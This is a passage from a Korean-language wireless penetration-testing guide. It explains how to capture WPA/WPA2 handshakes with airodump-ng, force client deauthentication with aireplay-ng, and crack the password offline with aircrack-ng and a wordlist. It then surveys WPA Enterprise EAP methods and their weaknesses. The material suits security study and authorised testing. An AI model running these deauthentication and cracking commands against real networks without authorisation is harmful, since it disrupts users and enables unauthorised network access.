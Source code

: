 ### 핸드셰이크 캡처

**WPA/WPA2** 네트워크에 대한 공격은 **핸드셰이크**를 캡처하고 비밀번호를 **오프라인**에서 **크랙**하려고 시도함으로써 실행될 수 있습니다. 이 과정은 특정 네트워크와 특정 **채널**에서 **BSSID**의 통신을 모니터링하는 것을 포함합니다. 다음은 간소화된 가이드입니다:

1. 대상 네트워크의 **BSSID**, **채널**, 및 **연결된 클라이언트**를 식별합니다.
2. `airodump-ng`를 사용하여 지정된 채널과 BSSID에서 네트워크 트래픽을 모니터링하고 핸드셰이크를 캡처합니다. 명령은 다음과 같이 보일 것입니다:
```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```
3. 핸드셰이크를 캡처할 확률을 높이기 위해 클라이언트를 네트워크에서 잠시 분리하여 재인증을 강제합니다. 이는 클라이언트에게 비인증 패킷을 전송하는 `aireplay-ng` 명령을 사용하여 수행할 수 있습니다:
```bash
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, may not work in all scenarios
```
_클라이언트가 인증 해제되었으므로 다른 AP에 연결을 시도하거나, 다른 네트워크에 연결을 시도할 수 있습니다._

`airodump-ng`에서 핸드셰이크 정보가 나타나면 핸드셰이크가 캡처되었음을 의미하며, 이제 청취를 중지할 수 있습니다:

![](<../../images/image (172) (1).png>)

핸드셰이크가 캡처되면 `aircrack-ng`로 **크랙**할 수 있습니다:
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```
### 파일에서 핸드셰이크 확인

**aircrack**
```bash
aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture
```
**tshark**
```bash
tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.
```
[**cowpatty**](https://github.com/roobixx/cowpatty)
```
cowpatty -r psk-01.cap -s "ESSID" -f -
```
_이 도구가 완료되지 않은 ESSID의 핸드셰이크를 완료된 것보다 먼저 찾으면, 유효한 것을 감지하지 못합니다._

**pyrit**
```bash
apt-get install pyrit #Not working for newer versions of kali
pyrit -r psk-01.cap analyze
```
## **WPA Enterprise (MGT)**

**기업 WiFi 설정에서는 다양한 인증 방법을 접하게 됩니다.** 각 방법은 서로 다른 보안 수준과 관리 기능을 제공합니다. `airodump-ng`와 같은 도구를 사용하여 네트워크 트래픽을 검사할 때 이러한 인증 유형에 대한 식별자를 발견할 수 있습니다. 일반적인 방법으로는 다음이 포함됩니다:
```
6A:FE:3B:73:18:FB  -58       19        0    0   1  195  WPA2 CCMP   MGT  NameOfMyWifi
```
1. **EAP-GTC (Generic Token Card)**:
- 이 방법은 EAP-PEAP 내에서 하드웨어 토큰과 일회용 비밀번호를 지원합니다. MSCHAPv2와 달리 피어 챌린지를 사용하지 않으며, 비밀번호를 평문으로 액세스 포인트에 전송하여 다운그레이드 공격의 위험을 초래합니다.
2. **EAP-MD5 (Message Digest 5)**:
- 클라이언트에서 비밀번호의 MD5 해시를 전송하는 방식입니다. 사전 공격에 대한 취약성, 서버 인증 부족, 세션별 WEP 키 생성 불가능으로 인해 **권장되지 않습니다**.
3. **EAP-TLS (Transport Layer Security)**:
- 인증을 위해 클라이언트 측 및 서버 측 인증서를 모두 사용하며, 통신을 보호하기 위해 사용자 기반 및 세션 기반 WEP 키를 동적으로 생성할 수 있습니다.
4. **EAP-TTLS (Tunneled Transport Layer Security)**:
- 암호화된 터널을 통해 상호 인증을 제공하며, 사용자별 및 세션별 WEP 키를 동적으로 유도하는 방법을 제공합니다. 서버 측 인증서만 필요하며, 클라이언트는 자격 증명을 사용합니다.
5. **PEAP (Protected Extensible Authentication Protocol)**:
- EAP와 유사하게 보호된 통신을 위한 TLS 터널을 생성합니다. 터널이 제공하는 보호 덕분에 EAP 위에 더 약한 인증 프로토콜을 사용할 수 있습니다.
- **PEAP-MSCHAPv2**: 일반적으로 PEAP로 언급되며, 취약한 MSCHAPv2 챌린지/응답 메커니즘과 보호 TLS 터널을 결합합니다.